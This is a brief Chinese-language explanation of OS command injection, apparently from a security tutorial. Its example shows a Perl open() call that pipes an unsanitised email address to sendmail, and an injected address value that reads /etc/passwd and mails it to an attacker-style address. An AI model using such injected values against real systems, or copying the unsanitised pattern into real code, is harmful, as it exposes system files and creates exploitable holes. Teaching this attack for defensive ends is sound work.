 OS注入攻击

执行非法的操作系统命令达到攻击

案例：

利用； 破坏shell函数结构

```shell
open(MAIL, "| /usr/sbin/sendmail $adr")

// 邮件地址
;cat /etc/passwd | mail hack@example.jp
```

